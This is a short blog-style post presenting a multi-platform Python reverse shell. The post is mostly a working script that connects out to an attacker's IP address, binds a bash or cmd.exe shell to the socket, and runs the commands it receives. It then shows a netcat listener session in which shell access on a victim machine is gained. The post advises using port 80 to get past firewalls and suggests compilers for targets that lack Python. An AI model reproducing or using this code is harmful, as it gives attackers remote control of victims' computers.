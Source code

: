 # Python Multi-Platform Reverse Shell
30.06.2020, 23:34 - Autor: Dorian V.


This is an easy yet powerfull Reverseshell written in Python. With this Shell you can go through the victims Firewall since the connection is 
going from the inside to the outsite.


### Tested on Python 3.6 under Kali Linux

```markup
#!/usr/bin/python
import socket, subprocess, os, sys

# Verbindung aufbauen
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(("192.168.1.186", 80))

# Mac OSX, Unix, Linux oder Win mit Cygwin
if sys.platform != "win32":
    os.dup2(soc.fileno(), 0)
    os.dup2(soc.fileno(), 1)
    os.dup2(soc.fileno(), 2)
    # Windows mit Cygwin - run cmd.exe
    if sys.platform == "cygwin":
        proc = subprocess.call(["C:\Windows\System32\cmd.exe"])
    # OSX, Unix, Linux - run bash
    else:
        proc = subprocess.call(["/bin/bash", "-i"])
# Windows 
else:
    data = soc.recv(1024)
    cmd = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = cmd.communicate()
    soc.send(STDOUT)
    soc.send(STDERR)
```

For the victim to be able to properly connect with us, we need to launch a Server-Service like Netcat on our machine:

```markdown
root@kali:~# nc -l -p 80
bash: no job control in this shell
bash-3.2$ whoami
dorian
bash-3.2$ id
uid=501(dorian) gid=20(dorian)
groups=20(staff), 501(access_bpf), 12(everyone), 61(localaccounts), 79(_appserverusr), 80(admin), 81(_appserveradm), 98(_lpadmin), 701(com.apple.sharepoint.group.1), 33(_appstore), 100(_lpoperator), 204(_developer), 395(com.apple.access_ftp), 398(com.apple.access_screensharing), 399(com.apple.access_ssh)
```

In this example -l stands for listen and -p 80 for port 80. At this point it is worth mentioning to use standart ports like 80 for HTTP which usually are not getting blocked by the Firewall.

Of course not everybody has Python already installed. For this case there are Compiler for Python like *py2exe*(Win), *cx_Freeze*(Cross-Plattform), *py2app*(OSX) or, *Nuitka*(Cross-Plattform).
